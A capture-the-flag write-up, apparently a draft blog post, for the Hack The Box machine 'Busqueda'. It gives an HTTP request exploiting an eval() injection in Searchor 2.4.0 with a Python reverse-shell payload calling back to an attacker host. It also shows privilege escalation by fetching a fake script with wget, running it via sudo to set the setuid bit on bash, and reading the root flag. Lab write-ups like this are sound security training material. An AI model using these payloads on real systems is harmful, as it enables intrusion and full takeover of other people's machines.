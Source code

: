 ```yaml
---
title: "Hack The Box - Busqueda [Easy]"
date: 2023-04-09T19:42:27+03:00
draft: true
tags: ["hackthebox"]
---
```


This machine is rather simple, upon scanning it we can see that the website has a generating search query URLs input form. On the bottom of the page, we can see the versions of the used software:

```
Powered by Flask and Searchor 2.4.0

$ whatweb 
Bootstrap[4.1.3], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.1.2 Python/3.10.6], IP[10.10.11.208], JQuery[3.2.1], Python[3.10.6], Script, Title[Searcher], Werkzeug[2.1.2]
```

A simple google search would yield a bug that has been removed in Searchor 2.4.2+ and before that `eval()` was used in the Searchor CLI module. Assuming that the website uses that, we can send the following payload:

```bash
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 67
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

engine=Accuweather&query=',copy_url=__import__('os').system(""" python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<myip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' """))
```

This would create a reverse shell to the machine. 

The currently used user is `svc` upon running 

```bash
$ sudo -l
```

 We can see that we can use this command:
 
```bash
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

I also discovered the `/opt/scripts` folder that had some scripts inside, including `full-checkup.sh`, I've run the command in the `/opt/scripts/` folder, and it successfully retrieved some information about the currently running services, I tried to run it in a different folder, and it gave me `Something went wrong`, I've created a dummy `full-checkup.sh` with `chmod +s /bin/bash` contents inside and ran the command again, it just printed out `[+] Done` and after that a simple `bash -p` gave me root user. 

```bash
$ cd /tmp && wget http://<ip>:8000/full-checkup.sh && chmod +x ./full-checkup.sh 
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
$ bash -p
$ cat /root/root.txt
```